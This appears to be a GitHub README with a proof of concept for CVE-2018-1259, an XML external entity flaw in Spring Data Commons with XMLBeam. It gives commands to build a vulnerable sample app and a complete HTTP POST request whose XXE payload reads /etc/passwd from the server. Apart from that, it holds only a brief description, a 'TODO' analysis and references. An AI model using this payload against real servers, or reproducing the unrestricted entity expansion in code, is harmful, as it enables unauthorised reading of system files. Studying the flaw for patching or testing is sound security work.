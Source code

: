 ## CVE-2018-1259: XXE with Spring Data’s XMLBeam integration

#### Vulnerability Description

Spring Data Commons, versions prior to 1.13 to 1.13.11 and 2.0 to 2.0.6 used in combination with XMLBeam 1.4.14 or earlier versions contain a property binder vulnerability caused by improper restriction of XML external entity references as underlying library XMLBeam does not restrict external reference expansion. An unauthenticated remote malicious user can supply specially crafted request parameters against Spring Data’s projection-based request payload binding to access arbitrary files on the system.

The PoC is from the example of spring-data-commons: 
https://github.com/spring-projects/spring-data-examples/tree/master/web/projection

#### Usage of PoC

```shell
git clone https://github.com/spring-projects/spring-data-examples.git
cd spring-data-examples
git checkout ad2b77e
cd web/projection
mvn clean package
java -jar spring-data-web-projection-2.0.0.BUILD-SNAPSHOT.jar
```

Post data to `http://host:8080/users`

```
POST / HTTP/1.1
Host: localhost:8080
Content-Length: 199
Cache-Control: max-age=0
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.139 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<user>
	<firstname>&xxe;</firstname>
	<lastname>melody</lastname>
</user>
```

#### Analyze

TODO

#### Reference

- <https://jira.spring.io/browse/DATACMNS-1292>
- [Spring Data Commons: Web databinding support](https://docs.spring.io/spring-data/commons/docs/current/reference/html/#core.web.binding)